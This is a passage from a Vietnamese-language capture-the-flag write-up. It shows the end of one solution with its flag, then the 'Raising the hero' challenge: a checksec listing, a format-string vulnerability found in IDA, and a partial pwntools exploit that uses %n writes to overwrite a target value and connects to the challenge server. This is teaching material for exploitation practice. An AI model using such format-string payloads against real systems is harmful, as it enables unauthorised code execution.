 ```python
p.interactive()
```

**Đáp án: BKSEC{W3_4LL_Hat3_c4NARY}**

### Bài Raising the hero

Kiểm tra các lớp bảo vệ của file 
>   Canary                        : ✓
    NX                            : ✓
    PIE                           : ✘
    Fortify                       : ✘
    RelRO                         : ✘

Load chương trình vào IDA32, chúng ta thấy có lỗ hổng FMT ở dòng `printbuffer(buf)`. 

![alt text](/images/bktrain2024/image-5.png)

Đây là dạng bài `ret2win`, chúng ta chỉ cần thay đổi giá trị `target = 0x6F726568` sẽ có được shell. 

**Lời giải**
```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF("./fmt_1")
p = process(elf.path)
p = remote("45.77.247.61", 6101)

target = 0x0804B39C

payload = f'%{0x6568}c%23$n'.encode()
payload += f'%{0x6F72 - 0x6568}c%24$n'.encode()
payload = payload.ljust(0x20, b'P')
```